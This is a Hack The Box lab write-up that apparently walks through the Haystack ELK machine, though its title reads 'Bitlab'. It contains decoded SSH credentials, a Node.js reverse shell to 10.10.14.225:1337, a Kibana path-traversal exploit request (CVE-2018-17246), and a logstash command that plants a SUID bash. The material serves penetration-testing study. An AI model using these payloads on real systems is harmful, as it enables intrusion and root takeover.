# Bitlab

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/195"></a>
  <br>
</h1>
<h4 align="center"> Author: <a href="https://www.hackthebox.eu/home/users/profile/32897" > JoyDragon </a> </h4>

***

__Machine IP__: 10.10.10.115

__DATE__ : 22/09/2019

__START TIME__: 6:31 PM

***

## Nmap



I've got three open port. Let's start our enumeration with HTTP service.

***

## HTTP

If we open the website then we can see a simple image of `needle in a haystack`.










Searched `clave` on the port `9200`.



I got some base64 strings. I decoded that:



`pass: spanish.is.key`

`user: security`


I tried that as SSH creds




There is something on the port `5601`



```bash
ssh -R 5601:127.0.0.1:5601 mzfr@10.10.14.225
```

I did remote port forwarding.



https://github.com/mpgn/CVE-2018-17246

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.14.225", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

```bash
curl http://127.0.0.1:5601/api/console/api_server?"sense_version=@@SENSE_VERSION&apis=../../../.../../../../../../../../../../tmp/whatisshell.js"
```



Then I ran

```bash
find / -type d -user kibana
```

I got `/opt/kibana` in the output. Then I realized that if we place any logstash file in that directory it might be caught by ELK. I tried but didn't work. THen [@theart42]() said that that is the way but we need to keep the anguage spanish.

```bash
sh-4.2$ echo "Ejecutar comando : cp /bin/bash /tmp/myohmy;chmod 4755 /tmp/myohmy" > logstash_rootit
```

Then just wait



